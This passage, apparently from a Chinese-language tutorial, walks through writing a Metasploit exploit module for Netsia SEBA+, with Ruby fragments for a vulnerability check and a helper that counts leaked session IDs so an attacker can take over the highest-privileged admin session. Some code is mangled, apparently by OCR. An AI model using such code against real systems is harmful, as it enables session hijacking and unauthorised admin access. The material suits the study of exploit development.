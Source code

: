 ```

    end

 

    if res.code == 200 and res.body.include? 'sessionId'  

      return Exploit::CheckCode::Vulnerable

    else

       if res.code == 200 and res.body.include? 'SUCCESS'

         print_status("Target is vulnerable! But active admin session was not found. Try again later.")

         return Exploit::CheckCode::Appears

       end

    end

 

    return Exploit::CheckCode::Safe

  End
```

如上所述的检查模块就足以完成该过程，我们不需要让Auxiliary去运行不必要的检测，因为如果目标不存在漏洞，则执行其他操作毫无意义。

```
unless Exploit::CheckCode::Vulnerable == check

      fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')

End
```

接下来，我们就可以开始编写漏洞利用代码了。

首先，我们需要了解Netsia SEBA+应用程序中有多少活动会话。因为可以有多个用户处于活动状态，其中一些可能不是授权用户，而我们需要使用权限最高的活跃用户来进行攻击。因此，我决定创建一个单独的计数方法。

```
def count_user(data, find_string)

    data.scan(/(?=#`{`find_string`}`)/).count

  End
```

我们将把HTTP响应指定为数据，并且查找字符串“sessionId”。这样一来，返回的响应中“sessionId”的数量就意味着有同样多的用户处于活动状态，稍后我们还需要提取这些sessionId值。

